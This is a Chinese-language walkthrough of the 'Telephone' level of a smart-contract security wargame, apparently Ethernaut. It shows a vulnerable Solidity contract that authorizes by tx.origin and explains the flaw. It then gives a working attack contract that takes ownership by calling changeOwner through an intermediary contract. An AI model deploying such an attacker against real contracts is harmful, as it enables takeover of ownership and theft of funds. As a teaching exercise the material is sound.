 # 4. Telephone
### 原题
```
获得下面合约来完成这一关

```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
### 分析
这道题又是让我们想办法获取所有权。\
唯一能下手的地方就是changeOwner()这个函数了。\
最关键的是要满足“tx.origin != msg.sender”。\
tx.origin是什么。origin表示是交易的最初发起者。\
msg.sender又是什么。sender是消息的直接调用者。\
什么时候最初发起者和消息调用者可以不同的呢？中间加个桥，加个转发。\
就像神秘大佬从来不会抛头露面，一般都是有自己的代理人出面打理。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external ;
}

contract TelephoneAttack{

    ITelephone telephone;
    
    constructor(address _telephone)  {
        telephone = ITelephone(_telephone);
    }

    function changeOwnerAttack() public returns (bool){
      // 站在攻击合约的角度，msg.sender可能是我的钱包账号
      // 站在被攻击合约的角度，msg.sender是攻击合约的地址
      // tx.origin就是我的钱包账号(我调用攻击合约，发起攻击)，被攻击合约收到的msg.sender是攻击合约地址
      (bool success,) = address(telephone).call(abi.encodeWithSignature("changeOwner(address)", msg.sender));

      return success;
    }
}
```